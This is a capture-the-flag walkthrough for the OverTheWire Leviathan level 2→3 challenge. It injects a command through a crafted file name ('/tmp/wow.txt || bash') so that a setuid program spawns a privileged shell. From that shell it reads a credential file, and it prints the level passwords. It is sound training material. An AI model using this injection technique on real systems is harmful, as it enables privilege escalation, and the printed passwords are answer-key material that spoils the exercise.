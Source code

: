 # Level 2 → Level 3

## Solution
```
ssh leviathan2@leviathan.labs.overthewire.org -p 2223
```
```
mEh5PNl10e
```
```
ls -al
```
![](0.png)

```
ltrace ./printfile /etc/passwd
```

![](1.png)
 
```
touch '/tmp/wow.txt || bash'
```
```
./printfile '/tmp/wow.txt || bash'
```

* `access()` **can** access the file `'/tmp/wow.txt || bash'`
    * because we created this file in **leviathan2** permissions.
* but `system()` running this code: `cat /tmp/wow.txt || bash`
    * **there is no** file named `/tmp/wow.txt`, so `bash` command is running in **leviathan3** permissions.


![](2.png)

```
cat /etc/leviathan_pass/leviathan3
```
```
exit
```
```
rm '/tmp/wow.txt || bash'
```

## Password for the next level:
```
Q0G8j4sakn
```
